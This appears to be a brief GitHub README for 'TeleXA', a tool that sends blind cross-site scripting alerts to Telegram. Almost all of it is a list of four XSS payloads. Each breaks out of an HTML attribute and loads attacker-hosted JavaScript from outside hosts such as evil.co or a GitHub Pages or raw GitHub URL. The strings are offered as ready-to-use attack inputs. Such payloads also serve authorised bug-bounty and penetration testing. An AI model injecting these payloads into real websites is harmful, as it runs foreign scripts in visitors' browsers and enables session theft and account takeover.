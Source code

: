 # bxss-tele
Blind XSS Alert Telegram

# TeleXA
Telegram Blind XSS Alert

# Payloads
```"><script src="http://evil.co/telexa.js"></script>``` \
```"><script src=http://user.github.io/txa.js></script>``` \
```"><script src="https://raw.githubusercontent.com/username/bxss-tele/master/bxss.js">``` \
```"><script>$.getScript("//evil.co/txa.js")</script>```
